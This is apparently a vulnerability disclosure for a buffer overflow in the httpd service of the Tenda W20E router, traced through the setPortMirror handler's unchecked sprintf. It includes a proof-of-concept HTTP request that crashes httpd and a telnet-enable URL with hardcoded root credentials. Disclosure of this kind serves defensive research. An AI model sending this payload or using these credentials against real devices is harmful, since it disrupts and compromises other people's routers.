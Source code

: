 # Tenda W20E  Buffer overflow vulnerability
## Overview
- Manufacturer's website information：https://www.tenda.com.cn/
- Firmware download address ：https://www.tenda.com.cn/product/download/W20E.html

## Vulnerability information
There is an buffer overflow vulnerability in tenda W20E V16.01.0.6(3392), which can cause httpd to crash and restart.
## Affected version

![](pic/1.png "")

Figure shows the latest firmware ：V16.01.0.6(3392)

## Vulnerability details
open telnet  http://192.168.0.1/goform/telnet
telnet admin/password is root/ Fireitup

using ida to analysis httpd, in function formSetPortMirror, the corresponding function field is setPortMirror.

![](pic/interface.png "")

In function formSetPortMirror:

![](pic/code.png "")

The program passes the contents obtained by the portMirrorMirroredPorts parameter to pMirroredPorts.   
Then, format the matching content of pMirroredPorts through the sprintf function into sMibValue.   
There is no size check, so there is a vulnerability that can cause buffer overflow through portMirrorMirroredPorts field.

The corresponding web page is as follws:

![](pic/web.png "")

## Vulnerability exploitation condition
Need to get cookie after logging in to execute the attack.

The functional data packets are as follows, and we will use this to construct poc.

```http
POST /goform/module?1668753675738 HTTP/1.1
Host: 192.168.0.1
Content-Length: 95
Accept: text/plain, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.107 Safari/537.36
Content-Type: application/json
Origin: http://192.168.0.1
Referer: http://192.168.0.1/index.html?v=3392
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: curShow=; bLanguage=cn; sessionid=W20Ev5:0.133.2:f012ed
Connection: close

{"setPortMirror":{"portMirrorEn":true,"portMirrorLanPort":4,"portMirrorMirroredPorts":"1,0,0a*200"}}
```

## Recurring vulnerabilities and POC
In order to reproduce the vulnerability, the following steps can be followed:
1. Connect physical devices
2. Attack with the POC

The poc and reproduction results are as follows:

![](pic/effect2.png "")

And attack twice:

![](pic/effect.png "")

Figure shows POC attack effect, the binary httpd restarts, because the process id changed.


## CVE-ID
unsigned